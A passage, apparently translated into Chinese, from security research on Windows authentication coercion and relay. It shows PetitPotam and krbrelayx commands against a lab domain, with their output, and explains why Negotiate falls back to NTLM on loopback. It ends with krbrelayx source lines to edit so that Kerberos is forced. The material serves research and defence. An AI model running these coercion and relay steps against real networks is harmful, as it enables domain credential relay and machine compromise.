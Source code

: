 ```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!


# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[-] No negTokenInit sent by client
```

  
有趣的是，尽管我们提供了 DNS 记录作为监听主机，且 
```
krbrelayx.py
```

  
 将 Kerberos 作为其认证协议之一进行宣传，但最终协商的却是 NTLM 认证。原因很简单，这与 Negotiate 认证包的工作机制有关：如果远程服务器同时支持 Kerberos 和 NTLM（
```
krbrelayx.py
```

  
 就是这种情况），并且客户端检测到目标是当前机器，那么就会使用 NTLM（以执行本地 NTLM 认证）。为了确定目标是否与客户端所在机器相同，系统会调用 
```
lsasrv!NegpIsLoopback
```

  
 函数。与 
```
msv1_0!SspIsTargetLocalhost
```

  
 函数类似，它会将目标名称与 localhost、机器的 FQDN 及其主机名进行比较。在我们的案例中，目标名称等于主机名，因此 
```
lsasrv!NegpIsLoopback
```

  
 返回 true，从而协商使用 NTLM。要强制使用 Kerberos，只需从宣传的类型中移除 NTLM mechtype：  

```
File: krbrelayx/lib/servers/smbrelayserver.py
156:         blob['tokenOid'] = '1.3.6.1.5.5.2'
157:         blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
158:                                                        MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
159:                                                        MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
```
